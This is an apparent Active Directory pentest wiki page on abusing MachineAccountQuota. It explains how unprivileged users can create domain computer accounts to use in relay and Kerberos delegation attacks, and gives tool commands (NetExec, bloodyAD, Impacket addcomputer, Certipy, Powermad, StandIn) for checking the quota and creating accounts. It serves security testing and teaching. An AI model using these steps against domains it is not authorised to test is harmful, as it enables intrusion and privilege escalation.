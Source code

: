 ```yaml
---
authors: ShutdownRepo, mpgn, noraj, sckdev
---
```


# MachineAccountQuota

## Theory

> MachineAccountQuota (MAQ) is a domain level attribute that by default permits unprivileged users to attach up to 10 computers to an Active Directory (AD) domain ([source](https://blog.netspi.com/machineaccountquota-is-useful-sometimes/))

## Practice

There are multiple ways attackers can leverage that power.

* [Force client authentications](../mitm-and-coerced-authentications/), [relay those authentications](../ntlm/relay.md) to domain controllers using LDAPS, and take advantage of authenticated sessions to create a domain computer account. This account can then be used as a foothold on the AD domain to operate authenticated recon (i.e. [with BloodHound](../../recon/bloodhound/index) for example)
* Create a computer account and use it for [Kerberos RBCD attacks](../kerberos/delegations/#resource-based-constrained-delegations-rbcd) when leveraging owned accounts with sufficient permissions (i.e. ACEs like `GenericAll`, `GenericWrite` or `WriteProperty`) against a target machine
* Create a computer account and use it for a [Kerberos Unconstrained Delegation](../kerberos/delegations/#unconstrained-delegations) attack when leveraging owned accounts with sufficient permissions (i.e. the `SeEnableDelegationPrivilege` user right)
* Profit from special rights that members of the Domain Computers group could inherit
* Profit from special rights that could automatically be applied to new domain computers based on their account name

### Check the value

::: tabs

=== UNIX-like

The [MachineAccountQuota](https://github.com/ShutdownRepo/CrackMapExec-MachineAccountQuota) module (for [NetExec](https://github.com/Pennyw0rth/NetExec) (Python)) can be used to check the value of the MachineAccountQuota attribute:

```bash
nxc ldap $DOMAIN_CONTROLLER -d $DOMAIN -u $USER -p $PASSWORD -M maq
```

Alternatively, it can be done manually with the Python library [ldap3](https://pypi.org/project/ldap3/) ([source](https://github.com/cannatag/ldap3)):

```bash
import ldap3

target_dn = "DC=domain,DC=local" # change this
domain = "domain" # change this
username = "username" # change this
password = "password" # change this

user = "{}\\{}".format(domain, username)
server = ldap3.Server(domain)
connection = ldap3.Connection(server = server, user = user, password = password, authentication = ldap3.NTLM)
connection.bind()
connection.search(target_dn,"(objectClass=*)", attributes=['ms-DS-MachineAccountQuota'])
print(connection.entries[0])
```

With [bloodyAD](https://github.com/CravateRouge/bloodyAD) (Python):

```bash
bloodyad -d $DOMAIN -u $USER -p $PASSWORD --host $DOMAIN_CONTROLLER get object 'DC=acme,DC=local' --attr ms-DS-MachineAccountQuota
```

With [ldeep](https://github.com/franc-pentest/ldeep) (Python):

```bash
ldeep ldap -d $DOMAIN -u $USER -p $PASSWORD -s $DOMAIN_CONTROLLER search '(objectclass=domain)' | jq '.[]."ms-DS-MachineAccountQuota"'
```

With ldapsearch (openldap (C)):

```bash
ldapsearch -x -H ldap://$DOMAIN_CONTROLLER -b 'DC=acme,DC=local' -D "$USER@$DOMAIN" -W -s sub "(objectclass=domain)" | grep ms-DS-MachineAccountQuota 
```


=== Windows

In order to run the following commands and tools as other users, testers can check the [user impersonation](../credentials/impersonation.md) part.

The following command, using the [PowerShell ActiveDirectory module](https://docs.microsoft.com/en-us/powershell/module/addsadministration/?view=win10-ps)'s cmdlets Get-ADDomain and Get-ADObject, will help testers make sure the controlled domain user can create computer accounts (the MachineAccountQuota domain-level attribute needs to be set higher than 0. It is set to 10 by default).

```powershell
Get-ADDomain | Select-Object -ExpandProperty DistinguishedName | Get-ADObject -Properties 'ms-DS-MachineAccountQuota'
```

FuzzSecurity's [StandIn](https://github.com/FuzzySecurity/StandIn) project is an alternative in C# (.NET assembly) to perform some AD post-compromise operations. Among the possible actions, the MAQ attribute can be requested ([source](https://github.com/FuzzySecurity/StandIn#create-machine-object)).

```powershell
StandIn.exe --object ms-DS-MachineAccountQuota=*
```

:::


### Create a computer account

::: tabs

=== UNIX-like

The [Impacket](https://github.com/SecureAuthCorp/impacket) script [addcomputer](https://tools.thehacker.recipes/impacket/examples/addcomputer.py) (Python) can be used to create a computer account, using the credentials of a domain user the the `MachineAccountQuota` domain-level attribute is set higher than 0 (10 by default).

```bash
addcomputer.py -computer-name 'SomeName$' -computer-pass 'SomePassword' -dc-host "$DC_HOST" -domain-netbios "$DOMAIN" "$DOMAIN"/"$USER":"$PASSWORD"
```

`addcomputer.py` also has an option `-computer-group` for adding a group to which the account will be added. Because if omitted, the group `CN=Computers` will be used by default.

Testers can also use [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) (Python) instead with the `--add-computer` option, like [this](https://arkanoidctf.medium.com/hackthebox-writeup-forest-4db0de793f96)

> [!TIP]
> When using [Impacket](https://github.com/SecureAuthCorp/impacket)'s addcomputer script for the creation of a computer account, the "SAMR" method is used by default (instead of the LDAPS one). At the time of writing (10th of December, 2021), the SAMR method creates the account without SPNs. In this case, they could be added later on with [addspn.py](https://github.com/dirkjanm/krbrelayx) (Python). By default, computer accounts have the following SPNs set:
> 
> ```
> KrbRestrictedHost/hostname
> KrbRestrictedHost/hostname.domain_fqdn
> Host/hostname
> Host/hostname.domain_fqdn
> ```

With [bloodyAD](https://github.com/CravateRouge/bloodyAD) (Python):

```bash
bloodyad -d "$DOMAIN" -u "$USER" -p "$PASSWORD" --host "$DC_HOST" add computer 'SomeName$' 'SomePassword'
```

With [ldeep](https://github.com/franc-pentest/ldeep) (Python):

```bash
ldeep ldap -u "$USER" -p "$PASSWORD" -d "$DOMAIN" -s ldap://"$DC_HOST" create_computer 'SomeName$' 'SomePassword'
```

With [Certipy](https://github.com/ly4k/Certipy) (Python):

```bash
certipy account create -username "$USER"@"$DOMAIN" -password "$PASSWORD" -dc-ip "$DC_HOST" -user 'SomeName$' -pass 'SomePassword' -dns 'SomeDNS'
```

Certipy also offers option to set the UPN (`-upn`), SAM account name (`-sam`), SPNS (`-spns`) while creating the computer.


=== Windows

The [Powermad](https://github.com/Kevin-Robertson/Powermad) module (PowerShell) can be used to create a domain computer account.

```powershell
$password = ConvertTo-SecureString 'SomePassword' -AsPlainText -Force
New-MachineAccount -MachineAccount 'PENTEST01' -Password $($password) -Verbose
```

While the machine account can only be deleted by domian administrators, it can be deactivated by the creator account with the following command using the Powermad module.

```powershell
Disable-MachineAccount -MachineAccount 'PENTEST01' -Verbose
```

An alternative is to use FuzzSecurity's [StandIn](https://github.com/FuzzySecurity/StandIn) (C#, .NET assembly) project to create a new password account with a random password, disable the account, or delete it (with elevated privileges):

```powershell
# Create the account
StandIn.exe --computer 'PENTEST01' --make

# Disable the account
StandIn.exe --computer 'PENTEST01' --disable

# Delete the account (requires elevated rights)
StandIn.exe --computer 'PENTEST01' --delete
```

:::


> [!TIP]
> Testers need to be aware that the MAQ attribute set to a non-zero value doesn't necessarily mean the users can create machine accounts. The right to add workstations to a domain can in fact be changed in the Group Policies. `Group Policy Management Console (gpmc.msc) > Domain Controllers OU > Domain Controllers Policy > Computer Configuration > Policies > Windows Settings > Security Settings > Local Policies > User Rights Assigments > Add workstations to domain`

## Resources

[https://blog.netspi.com/machineaccountquota-is-useful-sometimes/](https://blog.netspi.com/machineaccountquota-is-useful-sometimes/)

[https://www.harmj0y.net/blog/activedirectory/the-most-dangerous-user-right-you-probably-have-never-heard-of/](https://www.harmj0y.net/blog/activedirectory/the-most-dangerous-user-right-you-probably-have-never-heard-of/)

[https://social.technet.microsoft.com/wiki/contents/articles/5446.active-directory-how-to-prevent-authenticated-users-from-joining-workstations-to-a-domain.aspx](https://social.technet.microsoft.com/wiki/contents/articles/5446.active-directory-how-to-prevent-authenticated-users-from-joining-workstations-to-a-domain.aspx)

